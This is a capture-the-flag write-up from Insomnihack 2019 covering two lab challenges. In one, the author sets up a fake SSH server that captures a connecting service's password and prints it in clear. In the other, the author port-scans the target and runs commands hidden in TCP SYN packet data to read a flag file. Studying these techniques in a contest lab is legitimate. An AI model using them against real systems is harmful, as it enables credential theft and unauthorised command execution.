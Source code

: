 # Knockknock
=====================================
It was not about attacking, but listening on the laptop.  
There was a connection to port 22 from the server 10.13.37.99  
Let's install a FakeSSH serveur :  
git clone https://github.com/tylermenezes/FakeSSH  

sudo pip install paramiko  

cd FakeSSH  
cp ./data/config.sample.json ./data/config.json  
ssh-keygen -f ./data/rsa -m 'PEM'  
set no password  

sudo python3 server.py  

wait max 10min  

![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/fakessh_1.jpg)

ssh -l svc-tenable-linux 10.13.37.99  
password = $\mx3i#u0@%6d@8fk^&^x*ntw2m  

![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/fakessh_2.jpg)

==============

# Net1

it is supposed to happen between port TCP3000-4000  
a quick : nmap -Pn -p 3000-4000 10.13.37.99  
![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/Net00.jpg)


Hint 2 : RFC741x => RFC7413 = Use TCP SYN Data  

ok, Let's try some Python Scapy with TCP-Syn Data  and in another window a tcpdump -w dump.pcap port 3258  

![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/Net0.jpg)

Trying to send some commands but nothing back from the server.  
The goal was to send starting with just one letter.  
When receiving the wrong password, no answer. But sending a truncated password : for example Sy, the server would have returned with an answer of 'rx truncated' in the SYN-ACK packet.  

Hint got released at 1am : Password was "SyN"  

Ok, let's send some commands  
main(SyN ls -la)  
....  
final command : main(SyN cat ./secret/me/not/flag.txt)  


![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/Net1.jpg)




